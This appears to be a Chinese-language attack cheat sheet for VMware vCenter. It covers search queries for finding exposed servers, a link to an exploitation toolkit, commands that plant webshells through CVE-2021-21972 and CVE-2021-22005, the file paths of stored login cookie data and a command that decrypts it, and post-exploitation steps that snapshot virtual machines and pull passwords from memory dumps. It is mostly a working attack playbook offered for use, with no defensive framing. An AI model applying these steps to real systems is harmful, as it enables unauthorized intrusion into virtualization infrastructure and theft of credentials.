 # vCenter 漏洞

## 资产搜索
title="+ ID_VC_Welcome +"  或者  app="vmware-vCenter"

## 综合利用工具
https://github.com/Schira4396/VcenterKiller/releases

## POC
### 查看版本信息
`/sdk/vimServiceVersions.xml`

### CVE-2021-21972 任意文件上传漏洞
- 影响版本：VMware vCenter Server: 7.0/6.7/6.5
- `/ui/vropspluginui/rest/services/updateova` 响应为405表示漏洞存在
- 使用脚本工具写入webshell:`python3 CVE-2021-21972 -url`
- vCenter cookie 保存位置：  
```
LINUX : /storage/db/vmware-vmdir/data.mdb
WINDOWS : C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb
```
- 使用脚本解密cookie文件：`python3 vcenter_saml_login.py -p data.mdb -t x.x.x.x`  
- 数据包添加cookie后登陆  
参考：https://github.com/NS-Sp4ce/CVE-2021-21972  
https://github.com/horizon3ai/vcenter_saml_login

### CVE-2021-22005 任意文件上传漏洞
- 影响版本：VMware vCenter Server 7.0/6.7/6.5/4.0/3.0
- 使用脚本工具写入webshell:`python3 CVE-2021-22005.py -u x.x.x.x`
参考：https://github.com/Jun-5heng/CVE-2021-22005

## 后续利用
获取vcenter服务器权限后：使用pysharpsphere或SharpSphere对指定目标机器拍摄快照，然后dump镜像到本地，使用Volatility直接对.vmem文件进行内存密码抓取。
参考：http://www.hackdig.com/07/hack-716736.htm